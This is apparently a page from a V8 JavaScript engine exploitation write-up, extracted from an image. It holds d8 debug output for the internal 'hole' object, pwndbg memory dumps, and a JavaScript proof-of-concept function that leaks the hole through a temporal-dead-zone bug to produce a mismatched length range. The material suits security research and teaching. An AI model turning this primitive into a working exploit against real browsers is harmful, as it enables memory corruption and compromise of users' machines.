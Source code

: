 ```bash
DebugPrint: 0x1100000007d9: [Hole] in ReadOnlySpace
  <the_hole_value>
0x110000000745: [Map] in ReadOnlySpace
 - map: 0x110000000475 <MetaMap (0x11000000002d <null>)>
 - type: HOLE_TYPE
 - instance size: 12
 - elements kind: HOLEY_ELEMENTS
 - enum length: invalid
 - stable_map
 - non-extensible
 - back pointer: 0x110000000011 <undefined>
 - prototype_validity_cell: 0
 - instance descriptors (own) #0: 0x1100000007f1 <DescriptorArray[0]>
 - prototype: 0x11000000002d <null>
 - constructor: 0x11000000002d <null>
 - dependent code: 0x1100000007cd <Other heap object (WEAK_ARRAY_LIST_TYPE)>
 - construction counter: 0


Thread 1 "d8" received signal SIGTRAP, Trace/breakpoint trap.
0x00005555580d0c55 in v8::base::OS::DebugBreak() ()
...
pwndbg> x/10wx 0x11000005d421-1 # string object
0x11000005d420:  0x00000155  0x4f97c2ba  0x0000000b  0x656d6f73
                      ^ map      ^ hash       ^ len
0x11000005d430:  0x72747320  0x00676e69  0x00000155  0x272231aa
0x11000005d440:  0x00000007  0x48656854
pwndbg> x/10wx 0x1100000007d9-1
0x1100000007d8:  0x00000745  0xfff7ffff  0xfff7ffff  0x00000795
                      ^ map        ^ ??        ^ ??
0x1100000007e8:  0x000007bd  0x000007bd  0x0000071d  0x00000000
0x1100000007f8:  0x00000000  0x00000000
```

```javascript
function hax(trigger) {
  // Leak the_hole using the TDZ bug
  let x;
  delete x?.[y]?.a;
  let hole = y;
  let y;

  // Create a property that can be either the_hole or a string
  let o = {};
  o.maybe_hole = trigger ? hole : "not the hole";

  // Access the length property
  let len = o.maybe_hole.length;
  // inferred: (0, 535870888)
  // actual:   (-524289, 535870888) when trigger=true
}
```
